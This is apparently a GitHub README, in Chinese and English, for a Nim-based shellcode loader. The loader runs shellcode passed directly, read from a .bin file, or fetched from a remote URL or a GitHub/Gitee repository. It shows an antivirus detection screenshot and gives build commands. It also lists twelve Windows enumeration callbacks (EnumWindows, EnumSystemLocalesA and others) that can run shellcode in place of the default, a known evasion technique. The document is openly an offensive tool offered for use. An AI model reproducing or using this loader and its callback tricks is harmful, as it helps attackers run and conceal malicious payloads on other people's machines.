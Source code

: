 # nim_shellloader

详见以下:
details:
# usage
```
loader.exe payload.bin
loader.exe  (yourshellcode)
loader.exe (http://xxxx/xxx)
```
put your url/bin/shellcode direct
后面直接跟shellcode内容 或者bin文件名 或者网址就行


①use shellcode:

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/1.gif)

②use bin file

使用bin文件加载shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/2.gif)

③ load the shellcode which on your server(remote load)
加载你服务器上的shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/3.gif)

Besides,You can load shellcode which on your reposiotory(gitee,github,etc.) like this

此外 你还可以把shellcode放在github，gitee的地方让loader去读

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/4.png)

Notice:You must remove '\x' on your shellcode

注意:你必须去除你shellcode中的 \x

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/5.png)


查杀情况


![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/6.png)

# 编译 compile

step1:   setup  require   安装所需的库
```
nimble install https://gitee.com/oagi/winim.git
nimble install https://gitee.com/oagi/nim-stew
```
step2: generate exe   生成exe
```
nim c --cpu:i386 -d:mingw -d:ssl --opt:size shellcode_loader.nim
```
# Advise 建议
windows上编译容易出现玄学问题 可以用debian11交叉编译 不过记得要装mingw


It's easy to have problem if you compile it on Windows Platform.In my opion,you'd better compile it on Linux


如果出现:```could not load:(libcrypto-1_1|libeay32).dll```


考虑是运行的平台问题 因为编译的时候i386是x86的   所以出现这个问题就把i386换成amd64


```
nim c --cpu:amd64 -d:mingw -d:ssl --opt:size shellcode_loader.nim
```
如果是windows上编译 则可以不用加```-d:mingw```


## 源码中的EnumSystemGeoID回调函数可以换成以下函数 等价
```
# Callback execution
    EnumSystemGeoID(GEOCLASS_NATION,0,cast[GEO_ENUMPROC](rPtr)) #①
    EnumChildWindows(cast[HWND](nil),cast[WNDENUMPROC](rPtr),cast[LPARAM](nil))#②
    EnumDateFormatsA(cast[DATEFMT_ENUMPROCA](rPtr) , LOCALE_SYSTEM_DEFAULT, cast[DWORD](0))#③
    EnumDesktopsW(GetProcessWindowStation(),cast[DESKTOPENUMPROCW](rPtr), cast[LPARAM](nil))#④
    EnumDesktopWindows(GetThreadDesktop(GetCurrentThreadId()),cast[WNDENUMPROC](rPtr), cast[LPARAM](nil))#⑤
    EnumSystemCodePagesA(cast[CODEPAGE_ENUMPROCA](rPtr) ,0)#⑥
    EnumSystemCodePagesW(cast[CODEPAGE_ENUMPROCW](rPtr), CP_INSTALLED)#⑦
    EnumSystemLanguageGroupsA(cast[LANGUAGEGROUP_ENUMPROCA](rPtr),LGRPID_SUPPORTED,0)#⑧
    EnumSystemLocalesA(cast[LOCALE_ENUMPROCA](rPtr) ,nil)#⑨
    EnumThreadWindows(0,csat[WNDENUMPROC](rPtr),0) #⑩
    EnumUILanguagesA(cast[UILANGUAGE_ENUMPROCA](rPtr), MUI_LANGUAGE_ID, 0)#11
    EnumWindows(cast[WNDENUMPROC](rPtr), cast[LPARAM](nil))#12
```
